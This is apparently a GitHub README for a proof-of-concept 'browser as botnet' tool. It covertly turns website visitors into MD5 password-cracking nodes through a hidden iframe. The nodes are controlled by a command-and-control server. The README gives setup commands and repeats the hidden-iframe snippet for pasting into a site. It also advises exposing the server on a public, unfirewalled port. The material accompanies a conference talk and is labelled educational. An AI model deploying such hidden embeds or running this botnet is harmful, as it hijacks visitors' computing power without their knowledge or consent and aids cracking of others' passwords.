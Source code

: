 # Distributed Password Cracking

Borrow CPU cycles from visitor's web browsers to crack MD5 password hashes. Embedding a hidden `<iframe>` to a website will automatically add a visitor's browser as a node in a password cracking botnet. Their browser will received MD5 hashes and password candidates from a command-and-control server and report back any passwords it cracks for the duration of the time the visitor is browsing the "infected" website.

![Screenshot](.screenshot.png)

```html
<!-- add a single iframe embed to *your* website to add all visitors
     as nodes in the password cracking botnet -->
<iframe src="YOUR_WEBSITE.com:3000/embed" style="display:none">
```

This is proof-of-concept code for the [Browser as Botnet talk](http://radicalnetworks.org/participants/brannon-dorsey) ([video](https://livestream.com/internetsociety/radnets17/videos/164720367)) at [Radical Networks 2017](http://radicalnetworks.org/). As such, it **is not** optimized. There are far [more efficient ways](https://github.com/brannondorsey/naive-hashcat) to crack passwords if that is your goal. This project is intended to illustrate how compute jobs can be massively distributed across browsers.

**DISCLAIMER: This software is for educational purposes only. This software should not be used for illegal activity. The author is not responsible for its use. Don't be a dick.**

## Getting Started

```bash
# clone this repo
git clone https://github.com/brannondorsey/distributed-password-cracking
cd distributed-password-cracking

# install the dependencies
npm install

# run the command-and-control server
node server.js
```

Navigate to http://localhost:3000 to view the **unprotected** "admin" panel. This microsite allows you to view the activity of your botnet in real-time. To test that your password cracking network is working, open another browser tab to http://localhost:3000/embed. This creates a browser cracking node and launches one web worker per CPU on your machine. You should now see a connected node on the admin panel.

The server distributes password candidates and MD5 hashes to browser clients continuously as they connect. It uses:

- [`data/passwords.txt`](data/passwords.txt): The first 100,000 passwords from the [Rockyou](https://wiki.skullsecurity.org/Passwords) password dictionary
- [`data/hashes.txt`](data/hashes.txt): The `example0.hash` MD5 hashes distributed with [Hashcat](https://hashcat.net/hashcat/)

Cracked passwords are saved to `data/cracked.txt` like so:

```
5f4dcc3b5aa765d61d8327deb882cf99:password
```

Replace `passwords.txt` and `hashes.txt` to use your own password dictionary and MD5 hashes.

### Embedding the `<iframe>`

Once your server is running adding nodes is as easy as including an iframe in your website. For this to work, your node server has to be publicly accessible from the web. That means setting up port forwarding/ssh tunnels or renting a VPS (on AWS or the like) without a firewall on port 3000. Add the below iframe to whatever web page you would like visitors to crack passwords from:

```html
<iframe src="YOUR_WEBSITE.com:3000/embed" style="display:none">
```
**Note**: The node `server.js` enables CORs by default, but if you are proxying the connection (via Nginx, etc...) you may need to enable CORs on that proxy server as well.

## Future Features

- WebAssembly MD5 hashing. I'm close to this but ran out of time ahead of the talk. I'm reaching near native speeds in my tests, bringing hashrates on my machine from ~700K a second to 5M, nearly an order of magnitude speedup!
- CPU throttling settings

## License and Attribution

This software is released under an MIT license. You are free to use, modify, distribute, and sell it under those terms.
